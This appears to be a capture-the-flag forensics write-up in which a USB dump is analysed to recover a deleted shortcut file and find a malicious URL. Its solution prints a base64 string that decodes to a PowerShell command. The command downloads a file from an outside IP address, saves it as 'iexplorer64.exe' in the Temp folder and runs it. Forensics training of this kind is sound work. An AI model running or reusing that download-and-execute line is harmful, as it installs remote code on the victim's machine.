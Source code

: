 ![](./assets/images/logo.webp)



        
            
# where all problem starts 1



## Challenge Author(s):
Worty

## Description:
For a change of pace, a company has been attacked again... Nevertheless
, the means used here is quite original, indeed, it would be apparently
a food delivery man who would be at the origin of the initial 
compromise... For your first analysis, you will have to found what
the USB key that the delivery man put in the computer contains.

Could you provide us the malicious URL used to download something ?

## Objective:
Analyze the USB key dump and then find the malicious URL. 


## Flag:
`Hero{http://146.59.156.82/img.png}`
# 

# Solution

The strategy is:
- obtain deleted files from the dump
- extract these files
- decode base64 string to read the flag

<code>

    fls usb.dump
    icat usb.dump 5 > Important_Document.lnk
    echo YwBkACAAQwA6AFwAVQBzAGUAcgBzAFwAVwBvAHIAdAB5AFwAQQBwAHAARABhAHQAYQBcAEwAbwBjAGEAbABcAFQAZQBtAHAAXAAgADsAIABJAG4AdgBvAGsAZQAtAFcAZQBiAFIAZQBxAHUAZQBzAHQAIAAtAFUAcgBpACAAIgBoAHQAdABwADoALwAvADEANAA2AC4ANQA5AC4AMQA1ADYALgA4ADIALwBpAG0AZwAuAHAAbgBnACIAIAAtAE8AdQB0AEYAaQBsAGUAIAAiAGkAZQB4AHAAbABvAHIAZQByADYANAAuAGUAeABlACIAIAA7ACAALgBcAGkAZQB4AHAAbABvAHIAZQByADYANAAuAGUAeABlAA== | base64 -d

</code>